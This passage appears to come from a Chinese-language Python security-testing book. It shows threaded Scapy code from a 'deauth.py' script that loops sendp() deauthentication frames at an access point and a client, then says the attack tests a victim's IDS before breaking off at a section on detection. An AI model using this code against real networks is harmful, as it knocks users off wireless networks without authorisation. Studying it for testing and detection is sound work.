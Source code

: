 *   以下代码告诉线程攻击 deauth 攻击：

```py
  if victim_mac!="FF:FF:FF:FF:FF:FF":
    t1 = Thread(target=for_ap, args=(frame,interface))
    t1.start()
  t2 = Thread(target=for_client, args=(frame1,interface))
  t2.start()
```

在最后一行，`sendp(frame,iface=interface, count= 1000, inter= .1)``count`给出发送的数据包总数，`inter`表示两个数据包之间的间隔：

```py
def for_ap(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

def for_client(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

if __name__ == '__main__':
  main()
```

`deauth.py`程序的输出如下：

![](img/691a0ae7-cfca-4635-b748-94d0223e6e3d.jpg)

此攻击的目的不仅是执行 deauth 攻击，还包括检查受害者的安全系统。IDS 应该能够检测到 deauth 攻击。到目前为止，没有办法避免攻击，但可以检测到。

# 检测 deauth 攻击

